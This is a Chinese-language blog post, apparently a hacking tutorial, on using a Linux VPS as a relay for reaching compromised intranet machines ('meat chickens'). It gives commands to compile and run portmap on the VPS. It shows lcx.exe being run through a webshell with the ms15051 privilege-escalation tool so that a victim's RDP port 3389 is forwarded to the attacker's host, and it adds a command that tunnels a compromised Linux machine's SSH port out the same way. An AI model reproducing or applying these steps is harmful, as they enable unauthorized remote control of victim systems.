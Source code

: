 ```yaml
---
layout: post
title: "外网IP难寻，借Linux VPS中转使用LCX"
categories:
- 今日头条
tags:
---
```

现在ipv4越来越紧缺了，我们平头老百姓自己家很难拥有公网ip，但是我们渗透网站，特别是内网网站的时候却需要转发端口，这就导致了不便。

不过，我们可以在中间再加一个中转站。VPS你总有吧？一个普通配置的openvz肯定拥有公网IP，已足够满足我们的需求，年付也就百元上下（这说明国外IP多便宜...）。今天我们就来学习如何使用linux VPS进行端口中转。

![](http://p1.pstatp.com/large/162e00058ef55c5e24dc)

肉鸡：[内网IP]

我的VPS：10.211.55.7

首先ssh到VPS，先保证iptables什么的都关了。

上传一个叫portmap.c的程序，使用gcc编译：

gcc portmap.c -o portmap #编译

chmod 777 portmap #设置可执行权限

portmap的命令如下：

Usage:./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]

-v: version

-h1: host1

-h2: host2

-p1: port1

-p2: port2

-log: log the data

-m: the action method for this tool

1: listen on PORT1 and connect to HOST2:PORT2

2: listen on PORT1 and PORT2

3: connect to HOST1:PORT1 and HOST2:PORT2

这介绍太复杂了，可以不要看。直接输入如下命令：

1 ./portmap -m 2 -p1 6666 -h2 0.0.0.0 -p2 7777

上面的6666是接受肉鸡讯息的端口，7777是开放给你自己的电脑访问的端口。0.0.0.0代表本机IP，并且开放给外网访问。（如果你写127.0.0.1的话外来IP就不能连接了）

![](http://p3.pstatp.com/large/16350005b93a0f5ef3bf)

现在我们访问肉鸡上面的webshell，上传lcx工具。先确认是system权限（ms.exe是ms15051提权工具）：

![](http://p1.pstatp.com/large/162e00058f289440689d)

C:\inetpub\wwwroot\ms.exe "C:\inetpub\wwwroot\lcx.exe -slave 10.211.55.7 6666 127.0.0.1 3389"

其中10.211.55.7是中转VPS的ip地址，6666就是刚才设置的与肉鸡通信的端口。这个工具网上教程很多，就不多讲了。

然后点击执行后会发现你的浏览器一直显示正在连接，这是正常的，因为后台一直在通信。

![](http://p2.pstatp.com/large/162f0003962475825e9c)

![](http://p3.pstatp.com/large/15a50006682da9579e80)

后记

使用这种方式，同样你也可以把内网linux肉鸡的SSH给转发出来连接。具体命令如下（在肉鸡上运行）：

./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 10.211.55.7 -p2 6666

这句话意思是将本机的22端口（默认的SSH端口）转发到你VPS（10.211.55.7）的6666端口，其他的操作也大同小异。

就写到这吧！